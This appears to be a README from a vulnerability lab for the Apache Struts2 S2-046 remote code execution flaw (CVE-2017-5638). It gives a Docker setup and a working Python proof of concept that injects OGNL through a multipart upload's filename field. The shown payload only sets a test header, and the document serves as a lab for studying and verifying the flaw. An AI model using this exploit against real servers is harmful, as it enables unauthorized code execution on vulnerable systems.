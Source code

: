 # S2-046 Remote Code Execution Vulnerablity（CVE-2017-5638）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

References:

 - https://cwiki.apache.org/confluence/display/WW/S2-046
 - https://xz.aliyun.com/t/221

## Setup

Execute the following command to start the Struts2 2.3.30：

```
docker compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example of the upload page.

## Exploitation

As same as S2-045, S2-046 is also the OGNL injection but occurs at filename field of the upload request, and a NUL byte is needed to split payload and the remaining strings.

A simple Python POC for Verifying the vulnerability:

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())

```

`233*233` has been successfully executed:

![](1.png)
